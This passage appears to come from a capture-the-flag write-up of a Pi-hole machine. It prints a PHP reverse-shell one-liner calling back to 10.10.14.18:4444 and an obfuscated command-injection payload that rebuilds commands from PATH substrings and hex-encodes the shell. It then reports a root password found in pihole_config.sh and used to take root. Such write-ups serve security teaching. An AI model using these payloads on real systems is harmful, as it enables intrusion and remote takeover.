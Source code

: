 {{< image src="images/image-20200801213759929.png" >}}


We'll just modify the PoC exploit with the right IP for our machine: `php -r '$sock=fsockopen("10.10.14.18",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`

The final payload looks like this:

```
aaaaaaaaaaaa&&W=${PATH#/???/}&&P=${W%%?????:*}&&X=${PATH#/???/??}&&H=${X%%???:*}&&Z=${PATH#*:/??}&&R=${Z%%/*}&&$P$H$P$IFS-$R$IFS'EXEC(HEX2BIN("706870202D72202724736F636B3D66736F636B6F70656E282231302E31302E31342E3138222C34343434293B6578656328222F62696E2F7368202D69203C2633203E263320323E263322293B27"));'&&
```

{{< image src="images/image-20200801214200971.png" >}}


{{< image src="images/image-20200801214225678.png" >}}


Looking around the container we find a password in the `pihole_config.sh` file:

{{< image src="images/image-20200801214525034.png" >}}


We can su as root with those creds and pwn the last flag:

{{< image src="images/image-20200801214629712.png" >}}
